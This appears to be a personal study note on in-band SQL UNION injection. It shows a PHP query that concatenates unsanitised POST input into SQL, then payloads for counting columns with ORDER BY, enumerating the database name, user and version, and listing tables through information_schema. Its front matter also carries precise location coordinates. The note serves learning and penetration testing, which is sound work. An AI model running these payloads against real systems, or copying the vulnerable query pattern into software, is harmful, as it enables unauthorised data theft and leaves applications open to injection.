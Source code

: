 ```yaml
---
title: In-band SQL UNION Attacks
updated: 2025-04-22 11:36:52Z
created: 2025-04-22 11:13:37Z
latitude: -33.78668940
longitude: 150.95264980
altitude: 0.0000
---
```


## Inband SQL Injection
Whenever dealing with inband SQL injection and the result of the query is displayed along with the application returned value, test for UNION based SQL injections. For it to work:
1. The injection union query has to include the **same number of columns** as the original query.
2. The datatypes need to **match for each column**

`$query = "SELECT * FROM customers WHERE name LIKE '".$_POST["search_input"]."%'";`

**How to determine the number of columns:**
`' ORDER BY 1-- //`
then..
`' ORDER BY 2-- //`
`' ORDER BY 3-- //`
`' ORDER BY 4-- //`
etc...

**Enumeration database, user, SQL version**:
Eg: for a table with 5 columns
`%' UNION SELECT database(), user(), @@version, null, null -- //`
OR, depending on the datatypes for each field move them around
`' UNION SELECT null, null, database(), user(), @@version -- //`

**Look for other tables in the database**:

`' UNION SELECT null, table_name, column_name, table_schema, null FROM information_schema.columns WHERE table_schema=database() -- //`


